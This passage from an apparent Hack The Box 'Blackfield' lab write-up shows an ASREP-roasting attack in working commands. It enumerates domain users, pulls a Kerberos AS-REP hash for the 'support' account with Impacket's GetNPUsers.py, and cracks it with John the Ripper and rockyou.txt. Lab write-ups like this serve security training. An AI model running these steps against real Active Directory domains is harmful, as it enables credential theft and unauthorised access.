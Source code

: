 ~~~
  AShadaia                            D        0  Wed Jun  3 12:47:11 2020
------------------------------- snip -------------------------------------
~~~
{: .language-bash}

This should be a list of all user profiles in the domain, so i added all of these possible accounts into a file called users.txt since there was 300+ possible users.

As mentioned regarding the nmap scan, i noticed kerberos was running, kerberos is an authentication system frequently used in Windows Active Directory. 

ASREP-roasting is a technique related to the popular term of kerberoasting, kerberoasting in theory is explained in more detail [here](https://www.tarlogic.com/en/blog/how-kerberos-works/). And more practial attack scenarios can be learned [here](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)

>The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS_REQ request to the KDC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline. 

Using a tool called GetNPUsers.py from [Impacket](https://github.com/SecureAuthCorp/impacket) we can feed the tool with the userlist and hopefully return a crackable kerberos TGT. 

~~~
┌──(kali@kali)-[~/boxes/blackfield]
└─$ python3 GetNPUsers.py BLACKFIELD.local/ -usersfile users.txt -format john -outputfile ASREP_HASHES -dc-ip 10.10.10.192  
~~~
{: .language-bash}

After going trough each user in the list i end up with the account *support* in the ASREP_HASHES file.

~~~
┌──(kali@kali)-[~/boxes/blackfield]
└─$ cat ASREP_HASHES
$krb5asrep$support@BLACKFIELD.LOCAL:1708e1f9f7b7ade649039397c92d8a44$f37ee1b281af963557e814c3639235b434dcecd052eef83fca2191136e67f721bbac5f3c8b7c935da71a2eb127c810c1fe403307085dc4aff4e6462b69ad4c72c377a626deba3bcde148fddba3410e7f00c5d85d99823ec35d6ae2644c659e5c9364e013bda02856b55118856d4e3ba590e5f4129d01464c46a73492de7f4012b3259cb951d27ed379914c38c65886ead3a72d6038a3e945ddf58b6ff51bc8208972b8a2a6d13e87e6256132117cdaab27dbf55f17a91c9fd3f6939ec9794a6bbb57dbd25195f41c8e2af4901831046080578635dbe745d2e2e188bb8ccfa8776e54209bc96159f6da9880ef40fbf3b768d78500
~~~
{: .language-bash}

As i specified when running GetNPUsers, the tool gave me the hash in John-format, so i can use John to crack it.

~~~
┌──(kali@kali)-[~/boxes/blackfield]
└─$ sudo john ASREP_HASHES --wordlist=/usr/share/wordlists/rockyou.txt                         
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$support@BLACKFIELD.LOCAL)
1g 0:00:00:20 DONE (2020-11-04 15:15) 0.04821g/s 691175p/s 691175c/s 691175C/s #1ByNature..#*burberry#*1990
Use the "--show" option to display all of the cracked passwords reliably
Session completed

~~~
{: .language-bash}
